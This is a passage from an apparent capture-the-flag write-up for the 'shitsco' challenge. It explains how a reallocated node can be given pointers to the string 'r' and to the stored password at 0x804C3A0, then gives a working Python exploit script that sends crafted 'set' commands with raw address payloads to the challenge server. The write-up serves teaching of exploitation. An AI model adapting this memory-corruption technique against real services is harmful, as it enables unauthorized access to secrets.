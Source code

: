 Oh... lets read 0x804C3A0.

So our name for our reallocated element is now going to need 2 things. A valid node.name and a valid node.value. Since we want to be able to look this element up by name, and we don't know 0x804C3A0 yet, lets have that be the value pointer, and go find a good name pointer.

	.rodata:080495BC _IO_stdin_used  dd 20001h
	.rodata:080495C0 ; char modes[2]
	.rodata:080495C0 modes           db 'r',0                ; DATA XREF: init_opening_pw_file+18
	.rodata:080495C0                                         ; cmd_flag+24
	.rodata:080495C2 ; char filename[]
	.rodata:080495C2 filename        db '/home/shitsco/password',0
	.rodata:080495C2                                         ; DATA XREF: init_opening_pw_file+20

'r' is a pretty good name, no spaces and we know where it is.

Our final name string is thus

    [ptr to 'r'][0x804C3A0][something][something]


### Script


    #!/usr/bin/python
	from sock import *
	import sys
	import time

	#host = "localhost:1111"
	host = "shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337"
	#con = Sock("localhost:1111")
	con = Sock(host)
	def go_interactive(con):
		while True:
			time.sleep(0.2)
			print con.read_one(0)
			con.write(sys.stdin.readline())


	def pause_script():
		raw_input("Paused... Press enter to continue")  

	namestr = "\xC0\x95\x04\x08"+"\xA0\xC3\x04\x08"*3
	valstr = "f"


	con.read_until('$')
	con.send_line("set a bbb")
	con.send_line("set "+'b'*16+" s")
	con.send_line("set a ")
	con.send_line("set "+'b'*16+" ")
	con.send_line("set "+namestr+" "+valstr)

	#go_interactive(con)

	con.read_one(0)
